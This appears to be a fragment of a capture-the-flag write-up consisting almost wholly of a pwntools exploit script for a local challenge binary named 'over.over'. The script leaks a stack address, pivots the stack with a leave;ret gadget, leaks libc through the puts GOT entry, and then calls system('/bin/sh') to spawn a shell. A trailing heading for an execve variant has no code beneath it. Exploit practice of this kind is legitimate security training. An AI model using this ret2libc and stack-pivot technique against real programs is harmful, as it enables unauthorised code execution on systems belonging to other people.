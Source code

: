 ##### exp

**system('/bin/sh')**

```python
from pwn import *

context.log_level = 'debug'

p = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

pop_rdi = 0x400793
leave_ret = 0x4006be
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
sub_addr = 0x400676

# leak ebp
p.sendafter(">",'A'*0x50)   
stack = u64(p.recvuntil("\x7f")[-6: ].ljust(8, '\0'))-0x70
log.info("stack:"+hex(stack))

# leak libc
payload = p64(0xdeadbeef) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt)
payload += p64(sub_addr) # ret2text
payload = payload.ljust(0x50,'a') # padding
payload += p64(stack)
payload += p64(leave_ret)
p.sendafter(">",payload) 

libc_base = u64(p.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
log.success("libc_base:"+hex(libc_base))
system_addr = libc_base + libc.symbols['system']
log.success("system_addr:"+hex(system_addr))
binsh_addr = libc_base + libc.search('/bin/sh').next()
log.success("binsh_addr:"+hex(binsh_addr))

# system('/bin/sh')
payload = p64(0xdeadbeef) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
payload += p64(sub_addr) # ret2text
payload = payload.ljust(0x50,'a') # padding
payload += p64(stack)
payload += p64(leave_ret)
gdb.attach(p)
p.sendafter(">",payload) 

p.interactive()
```

**execve("/bin/sh", 0, 0)**
